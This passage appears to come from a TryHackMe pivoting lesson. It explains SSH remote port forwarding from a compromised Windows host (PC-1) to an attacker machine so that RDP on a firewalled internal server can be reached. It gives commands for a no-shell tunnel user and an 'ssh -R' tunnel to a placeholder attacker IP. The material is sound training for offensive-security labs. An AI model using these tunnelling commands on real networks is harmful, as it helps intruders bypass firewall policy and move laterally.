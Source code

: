 Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```shell-session
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

Depending on your needs, the SSH tunnel can be used to do either local or remote port forwarding. Let's take a look at each case.

### SSH Remote Port Forwarding

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. **Remote port forwarding** allows you to take a reachable port from the SSH client (in this case, PC-1) and project it into a **remote** SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1:

![SSH remote port forwarding](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/49401a0687c38a1ce78fdd5852aca5a7.png)  

A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have a GUI. By making the port available to your attacker's machine, you can use a Linux RDP client to connect. Similar situations arise when you want to run an exploit against a port that can't be reached directly, as your exploit may require a specific scripting language that may not always be available at machines you compromise along the way.

Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

```shell-session
C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
```

This will establish an SSH session from PC-1 to `1.1.1.1` (Attacker PC) using the `tunneluser` user.

Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at the SSH server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

